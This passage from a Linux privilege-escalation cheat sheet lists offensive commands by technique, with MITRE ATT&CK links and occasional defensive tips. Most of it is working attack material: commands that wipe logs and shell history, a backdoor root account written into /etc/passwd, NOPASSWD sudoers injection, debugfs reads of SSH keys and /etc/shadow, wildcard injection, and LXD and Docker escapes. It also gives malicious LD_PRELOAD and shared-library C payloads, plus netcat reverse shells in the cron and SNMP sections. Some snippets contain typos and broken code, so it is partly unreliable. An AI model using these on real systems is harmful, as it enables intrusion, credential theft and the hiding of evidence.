- *Architecture*: Only privileged user that needs to maintain or see the AppArmor configuration should be able to see his configuration.
- *Active Moniroting*: Monitor changes made to the AppArmor configuration

#### Commands to know

```bash
echo "" /var/log/auth.log        # Clear auth.log file
echo "" ~/.bash_history          # Clear current user bash history
rrn ~/.bash_history -rf          # Delete .bash_history file
history -c                       # Clear current session history
export HISTFILESIZE=0            # Set history max lines to 0
export HISTSIZE=0                # Set history max commands to 0
unset HISTFILE                   # Disable history logging (need to logout to take effect)
kill -9 $$                       # Kills current session
ln /dev/null ~/.bash_history -sf # Permanently send all bash history commands to /dev/null

# Check if it logs packets with impossible addresses to kernel log
grep "net\.ipv4\.conf\.all\.log_martians" /etc/sysctl.conf /etc/sysctl.d/*
grep "net\.ipv4\.conf\.default\.log_martians" /etc/sysctl.conf 
```

:white_check_mark: How to protect against or detect that technique:

- *Passive Control*: Use File Integrity Tools For Critical System Files on files that should not be modified outside authorized announced intervention
- *Active Control*: Monitor access and/or changes to sensitive files

### Users

#### User Enumeration

Here are some intersting files to know

- **utmp**: Will give you complete picture of users logins at which terminals, logouts, system events and current status of the system, system boot time (used by uptime) etc.
- **wtmp**: Gives historical data of utmp.
- **btmp**: Records only failed login attempts.

[utmpdump](https://man7.org/linux/man-pages/man1/utmpdump.1.html) dump UTMP and WTMP files in raw format.

```bash
lastlog # Reports the most recent login of all users
last -f /var/log/wtmp # wtmp is a file on the Linux, Solaris, and BSD operating systems that keeps a history of all logins and logouts.
utmpdump /var/run/utmp # Dump the utmp file
utmpdump /var/log/wtmp # Dump the wtmp file
utmpdump /var/log/btmp # Dump the btmp file
ls -la /home # Enumerate users (via /home)
cat /etc/passwd # Enumerate users (via /etc/passwd)
cat /etc/passwd | egrep -e '/bin/(ba)?sh' # Enumerate users that has shell access
```

#### Group Membership Privilege Escalation

```bash
id # Print real and effective user and group IDs
```

Some Linux were affected by a bug that when the User ID was superior to INT_MAX, you could escalate privileges.

```bash
systemd-run -t /bin/bash
```

##### Shadow

The users of the group shadow group can read the content of /etc/shadow and /etc/gshadow, containing the hashes of the passwords of other users and groups.

##### Kmem

Kmem stands for Kernel Memory.
The group kmem is able to read the content of the system memory, potentially disclosing data belonging to other processes.

##### Disk

The group **disk** can be very dangerous, since hard drives in /dev/sd\* and /dev/hd\* can be read and written bypassing any file system and any partition, allowing a normal user to disclose, alter and destroy both the partitions and the data of such drives without root privileges. 

You can find use that vulnerability as showed below where we use a filesystem debugger to get SSH keys and the /etc/shadow content.

```bash
debugfs /dev/sda1 # Starts debugging /dev/sda1
debugfs: cd /root # Move to /root
debugfs: ls # List all files in directory
debugfs: cat /root/.ssh/id_rsa # Display SSH Keys
debugfs: cat /etc/shadow # Display username and password
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Users should never belong to this group. If it is the case, it needs to be highly monitored.

##### Video Group

This group can be used locally to give a set of users access to a video device (like the framebuffer, the videocard or a webcam).

Application software that uses the frame buffer device (e.g. the X server) will use /dev/fb0 by default (older software uses /dev/fb0current).

Yo can then use Gimp to see the content.

```bash
w # Show who is logged on and what they are doing.
cat /dev/fb0 > /screenshot.raw # Copy the content from the first frame buffer towards screenshot.raw
cat /sys/class/graphics/fb0/virtual_size # Find the resolution of the screen
```

Then open screenshot.raw with Gimp and specify the Width and Height

<https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#video-group>

For more information about that technique refer to [T1113 - Screen Capture](https://attack.mitre.org/techniques/T1113/)

##### ADM Group

This group allows you to view logs in /var/log.

```bash
ls -alhR /var/log                       # Display all files within /var/log
zgrep "authen" auth.log*                # Search out "authen" within auth.log compressed file
zgrep "pass" auth.log*                  # Search out "pass" within auth.log compressed 
zgrep "authen" access.log*              # Search out "authen" within access.log compressed file
zgrep "pass" access.log*                # Search out "pass" within access.log compressed file
grep -d recurse "pass" /var/log/*       # Search out "pass" within all files in /var/log
```

Here are some interesting logs:

- **/var/log/faillog**: Failure log database
- **lpr.log**: LP Print Service logs
- **var/log/mysql.**: MySQL logs

##### Wheel Group

Any user that belongs to the group wheel can execute anything as sudo

```bash
cat /etc/sudoers
sudo su
```

##### LXD & LXC

**Linux Container (LXC)** are often considered as a lightweight virtualization technology that is something in the middle between a chroot and a completely developed virtual machine.
It creates an environment as close as possible to a Linux installation but without the need for a separate kernel.

**Linux daemon (LXD)** is the lightervisor, or lightweight container hypervisor. LXD is building on top of a container technology called LXC which was used by Docker before. It uses the stable LXC API to do all the container management behind the scene, adding the REST API on top and providing a much simpler, more consistent user experience.

When you are part of the LXD group, you can initialize the LXD process

```bash
lxd init # Initialize the LXD the process
# !!! When the "Do you want to configure a new storage pool?" appears, enter yes
# On your own machine get distrobuilder which is a system container image builder for LXC and LXD
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools # Install the requirements on your own machine
go get -d -v github.com/lxc/distrobuilder # Clone distrobuilder repo
cd $HOME/go/src/github.com/lxc/distrobuilder # Get to the make folder for distrobuilder
make # Make it

# Prepare the creation of alpine (still on your own computer)
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml # Create the LXD container using distrobuilder
# You will have then a lxd.tar.xz file and a rootfs.squashfs file

# Upload them to the victim host
wget http://IP:PORT/lxd.tar.xz
wget http://IP:PORT/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine # Import an image using the META file (lxd.tar.xz) and ROOTFS file (rootfs.squashfs)
lxc init alpine thomasd -c security.privileged=true # Create a container called thomasd from images alpline and give a configuration parameter to run the instance in privileged mode
lxc list # Verify that the container thomasd exist
lxc config device add thomasd host-root disk source=/ path=/mnt/root recursive=true # Add an extra device which mount "/" within the instance to the "thomasd" container  
lxc start thomasd # Run the container thomasd
lxc exec thomasd /bin/sh
#[System]:~# cd /mnt/root #Here is where the filesystem is mounted
```

##### Docker group

###### Mount technique

```bash
# Mount the file
docker run -it --rm -v /:/mnt bash
# Add a backdoor account toor:password.
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

#### Sudo --shell

The **/etc/shells** is a Linux / UNIX text file which contains the full pathnames of valid login shells.

```bash
su -h # Check if we can run another shell if /etc/shells allows it
cat /etc/shells
```

#### SUID & SGID

```bash
curl https://github.com/GTFOBins/GTFOBins.github.io/tree/master/_gtfobins 2>/dev/null | grep 'href="/GTFOBins/' | grep '.md">' | awk -F 'title="' '{print $2}' | cut -d '"' -f1 | cut -d "." -f1 | sed  -e 's,^,|,' | tr '\n' ' ' | tr -d "[:blank:]" #  GTFOBins.txt
```

```bash
find / -perm -u=s -type f -print 2>/dev/null # Search for program with the SUID
find / -perm -g=s -type f -print 2>/dev/null # Search for program with the SGID
```

For more information about that technique refer to [T1548.001 - Abuse Elevation Control Mechanism: Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/)

###### *If you don't know, now you know: [SUID](https://linux.die.net/man/2/setuid) & [SGID](https://linux.die.net/man/3/setgid)*

- **SUID** (**S**et owner **U**ser **ID** up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs.
- **SGID** (**S**et owner **G**roup **ID** up on execution) same as SUID for groups.

#### Sudoers

The file /etc/sudoers and the files inside /etc/sudoers.d configure who can use sudo and how.

```bash
sudo -l # Check if they are scripts than once launch, they are run as root
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

#### tty_tickets,  env_reset & timestamp_timeout

> / / / To finish

When a user authenticates with sudo, a ticket is temporarily created that allows sudo to run without re-authentication for a short period of time.
If a user logs out and the ticket is not cleared, the ticket is reused when the user logs back in, and the user does not need to re-authenticate.

If tty_tickets is disabled, the requirement for sudo users to re‑authenticate is controlled by this policy and the adclient.sudo.clear.passwd.timestamp setting in the agent configuration file.

[env_reset]

timestamp_timeout: Number of minutes that can elapse before sudo will ask for a passwd again.
-> The default is 5
Set this to 0 to always prompt for a password.
If set to a value less than 0 the user's time stamp will not expire until the system is rebooted.

- Defaults env_reset
  -> By default, the env_reset flag is enabled. This causes commands to be executed with a new, minimal environment. On AIX (and Linux systems without PAM), the environment is initialized with the contents of the /etc/environment file.
- Defaults !env_reset
  -> don't reset any environment variables from the invoking process, for ALL users.

```bash
sudo sed -i 'timestamp_timeout=-1/' /etc/sudoers
```

For more information about that technique refer to [T1548.003 - Abuse Elevation Control Mechanism: Sudo and Sudo Caching](https://attack.mitre.org/techniques/T1548/003/)

https://github.com/7CA700B53CA3/atomic-red-team-pre-subtechniques/blob/d591d963b6e88caec70d33f388299107d05c7a73/atomics/T1206/T1206.md

### Sudo (Single-user mode)

Single-user mode (sometimes known as Maintenance Mode) is a mode in which a multiuser computer operating system boots into a single superuser.
Administrator strart system in "Single User Mode" to perform certain critical tasks

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure authentication required for single user mode (passwd root)

#### Sudo Killer (Tool)

[SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) is an automated script which searches for the following:

- Misconfigurations
- Dangerous Binaries
- Vulnerable versions of sudo - CVEs
- Dangerous Environment Variables
- Credential Harvesting
- Writable directories where scripts reside
- Binaries that might be replaced
- Identify missing scripts

```bash
# Online mode
./sudo_killer.sh -c -e -r report.txt -p /tmp/report
# Offline mode
./extract.sh
./sudo_killer.sh -c -i /path/sk_offline.txt
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure access to the su command is restricted via the implementation of the wheel group.

#### doas

OpenBSD's alternative to sudo is **doas**, although it does not work the same way as sudo and requires some configuration.

```bash
cat  /etc/doas.conf
```

If you see "permit nopass", then it's command that can be run as root

For more information about that technique refer to [T1574.006 - Hijack Execution Flow: LD_PRELOAD](https://attack.mitre.org/techniques/T1574/006/)

###### *If you don't know, now you know: [Sudoers](https://help.ubuntu.com/community/Sudoers)*

The /etc/sudoers file controls who can run what commands as what users on what machines and can also control special things such as whether you need a password for particular commands.

You can use **PASSWD** and **NOPASSWD** to specify whether the user has to enter a password or not.

### /etc/init.d & /etc/rc.local

THe **/etc/init.d** directory stores scripts which are started during the boot process (or executed when you shutdown or reboot the system).
The **/etc/rc.local** script is executed after all the normal system services, within **/etc/init.d**,  are started

```bash
# Here we restart for example the service called thomas
/etc/init.d/thomas restart
```

### Cron Jobs

Since Cron runs as root when executing /etc/crontab, any commands or scripts that are called by the crontab will also run as root.

```bash
crontab -l # Display all user's jobs in cron / crontab
crontab -e # Edit the current crontab using the  editor specified by the VISUAL or EDITOR environment variables.
```

Interesting cron files:

- **/etc/crontab**: System crontab. Cron will run as the **root** user when executing scripts and commands in this file.
- **/etc/anacrontab**: Cron will run as the **root** user when executing scripts and commands in this file.
*Nowadays the file is empty by default.
Originally it was usually used to run daily, weekly, monthly jobs. By default these jobs are now run through anacron which reads /etc/anacrontab configuration file.*
- **/var/spool/cron**: Directory that contains user crontables created by the crontab command.
- **/etc/cron.d:**: Directory that contains system cronjobs stored for different users.

Cron examines all stored crontabs and checks each job to see if it needs to be run in the current minute.

1. Search if there are script executed that you can write
2. Search for wildcard injection vulnerability such as tar, chown and chmod (cc Wildcard)
3. Search for execution within the script that use a folder or file that can be changed to '; nc -c bash IP PORT

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure permissions on /etc/crontab, /etc/cron.hourly, /etc/cron.daily, /etc/cron.monthly and /etc/cron.d are configured
- *Architecture*: Ensure at/cron is restricted to authorized user
- *Architecture*: Ensure that scripts that may be run by cron are only accessible by privileges users
- *Active Defense*: Detect modifications made to cron jobs

For more information about that technique refer to [T1053.003 - Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)

#### $PATH

##### User

```bash
echo $PATH
```

If you notice '.' in environment PATH variable it means that the logged user can execute binaries/scripts from the current directory and it can be an excellent technique for an attacker to escalate root privilege.

For more information about that technique refer to [T1574.007 - Hijack Execution Flow: Path Interception by PATH Environment Variable](https://attack.mitre.org/techniques/T1574/007/)

##### Root

It may be possible that the PATH of root has been modified for a certain reason.
If there is a directory in the PATH of root where we have writable access, we could stage malicious scripts, binairies or librairies so that there are executed as root when he execute them.

```bash
grep -nr PATH /etc/profile.d
cat /root/.bash_profile -print 2>/dev/null
cat /root/.bashrc -print 2>/dev/null
```

You could search for *export PATH=* and examine what is there.

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure root PATH Integrity

For more information about that technique refer to [T1574.007 - Hijack Execution Flow: Path Interception by PATH Environment Variable](https://attack.mitre.org/techniques/T1574/007/)

###### *If you don't know, now you know: [.bashrc & .bash_profile](https://medium.com/@makersu/bash-profile-vs-bashrc-4834eaf73379)*

bashrc is executed for every user who run a bash shell. It sets the default prompt, as well as adding aliases

bash_profile is is used by each user to enter information that are specific to them. It is executed only when the user logs in

#### Systemd PATH

We can dump the systemd manager environment block. This is the environment block that is passed to all processes the manager spawns.

```bash
systemctl show-environment
```

Same principle as $PATH, but for systemd services.

###### *If you don't know, now you know: [PATH](https://en.wikipedia.org/wiki/PATH_(variable))*

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.

When the user run any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user.

### Wildcard

When you provide **--** followed by two spaces, it instructs the program to stop interpret command line argument.

#### Chown/Chmod file reference

Here we wil use the **--reference=FILE** parameter that use the given *file*'s owner and group rather than specifying OWNER:GROUP values.

```bash
touch -- --reference=.thomas.txt
chown -R * .txt # This wil
```

Here below is an example:

```bash
# Create:
# - One file called ".thomas.txt" that belong to me
# - One filed called "--reference=.thomas.txt" which will be used as a reference parameter

kali@kali:/example$ touch .thomas.txt
kali@kali:/example$ touch -- --reference=.thomas.txt

# You can see that all files, except the two I created belongs to root
kali@kali:/example$ ls -all
total 44
drwxrwxrwx  2 root root  4096 Nov 20 11:41  .
drwxr-xr-x 22 root root 36864 Nov 20 11:31  ..
-rw-r--r--  1 root root     0 Nov 20 11:40  file1.txt
-rw-r--r--  1 root root     0 Nov 20 11:40  file2.txt
-rw-r--r--  1 root root     0 Nov 20 11:41  file3.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41 '--reference=.thomas.txt'
-rw-r--r--  1 kali kali     0 Nov 20 11:41  .thomas.txt

# Let's connect as root and decide that ALL files within the directory
# should belong to the user and group root
root@kali:/example# chown -R root:root * 2>/dev/null

# And we can see that it took the "--reference=.thomas.txt" via the '*' and assigned all the files to the user kali
root@kali:/example# ls -all
total 44
drwxrwxrwx  2 root root  4096 Nov 20 11:41  .
drwxr-xr-x 22 root root 36864 Nov 20 11:31  ..
-rw-r--r--  1 kali kali     0 Nov 20 11:40  file1.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:40  file2.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41  file3.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41 '--reference=.thomas.txt'
-rw-r--r--  1 kali kali     0 Nov 20 11:41  .thomas.txt
```

This works with chmod as well.

#### Tar arbitrary command execution

You can do the same with tar.

```bash
touch -- --checkpoint=1 # Create a file named --checkpoint=1
touch -- --checkpoint-action=exec=/bin/sh # Create a file named --checkpoint-action=exec=/bin/sh
--checkpoint=1 --checkpoint-action=action=exec=sh shell.sh # Perform shell.sh every file it go through
```

### Timers

Timers are systemd unit files whose name ends in . timer that control . service files or events. Timers can be used as an alternative to cron.

Timers are systemd unit files with a suffix of .timer. Timers are like other unit configuration files and are loaded from the same paths but include a [Timer] section which defines when and how the timer activates.

```bash
systemctl list-timers --all
```

Privileged timers are written to **/etc/systemd/system/** and **/usr/lib/systemd/system** while user level are written to **~/.config/systemd/user/**

```bash
# /etc/systemd/system/
ls -la /etc/systemd/system/
find /etc/systemd/system/ -perm -u=s -type f -print 2>/dev/null # Search for files with the SUID
find /etc/systemd/system/ -perm -g=s -type f -print 2>/dev/null # Search for files with the SGID

# /usr/lib/systemd/system
ls -la /usr/lib/systemd/system
find /usr/lib/systemd/system -perm -u=s -type f -print 2>/dev/null # Search for files with the SUID
find /usr/lib/systemd/system -perm -g=s -type f -print 2>/dev/null # Search for files with the SGID

# ~/.config/systemd/user/
ls -la ~/.config/systemd/user/
```

You can abuse from timers the same way as for cron jobs.

For more information about that technique refer to [T1053.006 - Scheduled Task/Job: Systemd Timers](https://attack.mitre.org/techniques/T1053/006/)

### Linux Processes

The idea is to find a process run as root. Some interesting finding can be:

- Process running as root that execute a script that we can change
- Process running as root that that we could read to find interesting information
- ...

[pspy](https://github.com/DominicBreuker/pspy#how-it-works) is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute.
It heavily uses the [inotify API](https://man7.org/linux/man-pages/man7/inotify.7.html) provides a mechanism for monitoring filesystem events.
Inotify can be used to monitor individual files, or to monitor directories.

```bash
./pspy64 -pf -i 1000 # Displays both commands and file system events and scan procfs every 1000 ms (=1sec)
ps -aef --forest
ps -aef --forest | grep "root"
top
service --status-all # Try to figure out for every init script in /etc/init.d if it supports a status command
chkconfig --list #  List all available services and view or update their run level settings.
ps aux | grep root # Displays services run by root
ps -ef | grep root # Displays services run by root
ss -lnpt # Dumps socket statistics
```

For more information about that technique refer to [T1057 - Process Discovery](https://attack.mitre.org/techniques/T1057/)

#### Dumping memory

If there are softwares that are running and may contains interesting data, it worst trying to dump the heap of it.

```bash
# If the GDB Project Debugger is installed, we try to run it against the PID we are interested in
gdb -p PID
# We dump the heap from the memory adresses from where the program is running
dump memory /tmp/heap.txt 0x000000 0xF00000

strings /tmp/heap.txt | grep passwd
```

Note that gdb will show also indicate you the following three sections:

- [heap]:The heap of the program
- [stack]:The stack of the main process
- [vdso]:The "virtual dynamic shared object", the kernel system call handler

### Binaries installed

The ideas is to find binairies that we could leverage or binairies that are from third parties that may not be up-to-date with some vulnerabilities

- **/usr/bin/**: Used for programs that both the system administrator and by users can run
- **/usr/local/**: Used by the system administrator when installing software locally.
- **/usr/local/bin/**: Used for programs that a normal user may run.
- **/sbin/**: Used for programs needed for booting, low-level system repair, or maintenance (run level 1 or S)

**local** usually means that they are not part of the distribution but either locally compiled or manually installed

```bash
ls -alh /usr/bin/ # Displays all binaries within /usr/bin/
ls -alh /sbin/ # Displays all binaries within /sbin/
ls -alh /usr/local/ # Displays all the content of /usr/local/
ls -alh /usr/local/bin/  # Displays all the content of /usr/local/
dpkg -l # Displays all Debian based packages
rpm -qa # Displays all RedHat based packages
```

### Linux Capabilities

The [getcap](https://www.man7.org/linux/man-pages/man8/getcap.8.html) command displays the name and capabilities of each specified file.
To recursively check the capabilities of all files you have access, use the following command **getcap -r / 2>/dev/null**
For instance, you can find Python or Perl that are assigned to root and you can do the following then:

```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

If you can use **/usr/sbin/setcap** or **/usr/bin/setcap** you can easily perform privilege escalation by doing the following

```bash
/usr/bin/setcap cap_setuid+ep /mybin
```

If you get capabilities in the hexadecimal, you can use [capsh](https://man7.org/linux/man-pages/man1/capsh.1.html) in order to translate that hexadecimal value towards capabilities in a human readable format

```bash
thomas@home# cat /proc/13/status | grep Cap
CapInh: 0000000000000000
CapPrm: 000001ffffffffff
CapEff: 000001ffffffffff
CapBnd: 000001ffffffffff
CapAmb: 0000000000000000
thomas@home# capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
```

*Note that on some systems, getcap is not available for all users* 

###### *If you don't know, now you know: [Capabilities](https://linux.die.net/man/7/capabilities)*

Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as *capabilities*, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

Some capabilities to look for are:

- **CAP_CHOWN**: Make arbitrary changes to file UIDs and GIDs (SUIDs and SGIDs as well)
- **CAP_DAC_OVERRID**: Bypass file read, write, and execute permission checks.
- **CAP_DAC_READ_SEARCH**: Bypass file read permission checks and directory read and execute permission checks
- **CAP_SETGID**: Make arbitrary manipulations of process GIDs and supplementary GID list
- **CAP_SETUID**: Make arbitrary manipulations of process UIDs
- **CAP_SYS_PTRACE**: Transfer data to or from the memory of arbitrary processes

Note that **=ep** is equal to ALL the capabilites permitted (p) and effective (e) from the start.

### D-Bus Enumeration

**D-Bus** is an IPC mechanism initially designed to replace the software component communications systems used by the GNOME and KDE Linux desktop environments.

Each service is defined by the **objects** and **interfaces** that it exposes.

We can think of objects as instances of classes in standard OOP languages.

```bash
busctl list # List D-Bus interfaces
busctl status INTERFACE
busctl tree INTERFACE # Get Interfaces of the service object
busctl introspect INTERFACE SERVICE_OBJECT # Get methods of the interface
```

### SNMP

If you have a SNMP community with write permissions we can archive code execution by abusing the **NET-SNMP-EXTEND-MIB extension**

The Net-SNMP Agent provides an extension MIB (NET-SNMP-EXTEND-MIB) that **can be used to query arbitrary shell scripts**. To specify the shell script to run, use the extend directive in the /etc/snmp/snmpd.conf file. Once defined, the Agent will provide the exit code and any output of the command over SNMP.

In order to **extend** you in order to get a remote shell, you need to add the following to the /etc/snmp/snmpd.conf file:
extend shell /bin/nc 192.168.0.1 4444 -e /bin/bash

### Shared library

A **shared library** or **shared object** is a file that is intended to be **shared** by executable files and further shared object files.

Linux shared libraries combined with weak file permissions can be used to execute arbitrary code and compromise Linux system.

Within Linux, here below is the order where the O.S. searches for librairies:

1. Any directories specified by rpath-link options (directories specified by rpath-link options are only effective at link time)
2. Any directories specified by –rpath options (directories specified by rpath options are included in the executable and used at runtime)
3. LD_RUN_PATH
4. LD_LIBRARY_PATH
5. Directories in the DT_RUNPATH or DT_RPATH. (DT_RPATH entries are ignored if DT_RUNPATH entries exist)
6. /lib and /usr/lib
7. Directories within /etc/ld.so.conf

If we can replace a shared library with a malicious one, thenwhen the application runs, it will load the malicious code and run it with the executing owner’s permissions.

Here below is a nice diagram from [contextis.com](https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library) which shows how to test that



```bash
# 1. Check if the binary is looking for shared libraries that we could exploit
ldd BINARY
# 2. Check if the binary has been compiled with -rpath
objdump -x BINARY | grep RPATH
# 3. Display both $LD_LIBRARY_PATH and LD_RUN_PATH environment variable
echo $LD_LIBRARY_PATH
echo $LD_RUN_PATH
# 4. Display the LD_RUN_PATH environment variable
objdump -x PATH/BINARY | grep RUNPATH
readelf -d PATH/BINARY | head -20
chrpath -l PATH/BINARY
# 5. Display the content for both /lib and /usr/lib
ls /lib
ls /usr/lib
# 6. Display the content of /etc/ld.so.conf
cat /etc/ld.so.conf
# 7. Display if there are any missing libraries
ldd BINARY | grep "not found"
```

#### RPATH

[readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) is a program for displaying various information about object files on Unix-like systems such as objdump.

- **-d**: Displays the contents of the file's dynamic section, if it has one.

```bash
# Display the library RPATH
readelf -d BIN | egrep "NEEDED|RPATH"
ldd BIN
# If there is one, create an evil dll and place it at the RPATH
gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6
```

#### RUNPATH

**RPATH** designates the run-time search path hard-coded in an executable file or library.
We need also to know about **$ORIGIN** which is a special variable that indicate actual executable filename.

To set a library when **-rpath** has been set during the compilation you can do the following

```bash
chrpath -r "\$\ORIGIN/PATH/thomas.so" /usr/bin/vulnerable_exe
```

If it is not possible, we try the to use [patchelf](https://github.com/NixOS/patchelf) which is a simple utility for modifying existing ELF executables and libraries

```bash
patchelf — set-rpath "$ORIGIN/PATH/thomas.so" /usr/bin/vulnerable_exe
```

#### "/lib" & "/usr/lib"

#### "LD_LIBRARY_PATH & LD_RUN_PATH" Method

LD_LIBRARY_PATH: Search path environment variable for the linux shared library.
LD_PRELOAD: Influence the linkage of shared libraries and the resolution of symbols (functions) at runtime.
LD_RUN_PATH: Tell the dynamic link loader where to search for the dynamic shared libraries an application was linked against.

We can do the following:

```bash
# Either add the path where our malicious .so is
LD_LIBRARY_PATH export LD_LIBRARY_PATH=/tmp/
# Use LD_PRELOAD to force vulnerable_exe to use thomas.so
LD_PRELOAD=/tmp/thomas.so /usr/bin/vulnerable_exe
# Use LD_RUN_PATH to
LD_RUN_PATH=/tmp/thomas.so /usr/bin/vulnerable_exe
```

#### "/etc/ld.so.conf" Method

We need to check if we have write permission in **/etc/ld.so.conf(.d)**.

Some existing libraries do not contain enough information to allow the deduction of their type. Therefore, the /etc/ld.so.conf file format allows the specification of an expected type.

Let's add a directory where we have right access to **ld.so.conf**

```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

And then create a shared library that is going to get us root

```c
//gcc -shared -o thomas.so -fPIC thomas.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void thomas(){
    setuid(0);
    setgid(0);
    system("/bin/sh",NULL,NULL);
}
```

#### LD_PRELOAD

**LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

If output of a sudo -l shows +LD_PRELOAD on an entries, you can take advantage of it.

create the following payload

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

Compile it, put it an a writtable directory and launch it with nano

```bash
gcc -fPIC -shared -o evil.so evil.c -nostartfiles
sudo LD_PRELOAD=evil.so nano
```

For more information about that technique refer to [T1574 - Hijack Execution Flow: LD_PRELOAD](https://attack.mitre.org/techniques/T1574/006/)

### Linux kernel drivers

During implementation of Linux kernel drivers, the developer might register a device driver file which will usually be registered in the /dev/ directory.
Operations supported by the device driver file are described in the ‘file_operations’ structure which contains a number of function pointers, one for each operation.

dmesg 2>/dev/null | grep "signature"

module verification failed: signature and/or required key missing - tainting kernel

 mmap handler

The main purpose of an mmap handler is to speed up data exchange between userland programs and kernel space.

The kernel might **share a kernel buffer** or some physical range of memory directly with the **user address space**. The user space process may modify this memory directly without the need for making additional
syscalls.



source: <https://developer.ibm.com/technologies/linux/articles/l-kernel-memory-access/>

Note that normally:

- Applications are not allowed to access the kernel memory.
- Restricted Kernel data must not leave the kernel memory.

> / / / To Finish / / /  
https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#shared-library
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
https://touhidshaikh.com/blog/2018/04/12/sudo-ld_preload-linux-privilege-escalation/


#### Others

php -a # Get a PHP Shell

```php
$connection = new PDO('pgsql:host=localhost;dbname=profiles', 'profiles', 'profiles');
$result = $connection->query("SELECT * FROM profiles")
$profiles = $result->fetchAll();
print_r($profiles);
Array
(
    [0] => Array
        (
            [id] => 1
            [0] => 1
            [username] => clave
            [1] => clave
            [password] => c3NoLXN0cjBuZy1wQHNz==
            [2] => c3NoLXN0cjBuZy1wQHNz==
        )
)
```

#### References

- Abusing NET-SNMP-EXTEND-MIB: https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/
- LD_PRELOAD: https://touhidshaikh.com/blog/2018/04/12/sudo-ld_preload-linux-privilege-escalation/
https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
- CAP_SYS_PTRACE: https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc
- NFS Root Squashing: https://haiderm.com/category/priviledge-escalation/
- tmux: https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions
- https://reboare.gitbooks.io/booj-security/content/general-linux/privilege-escalation.html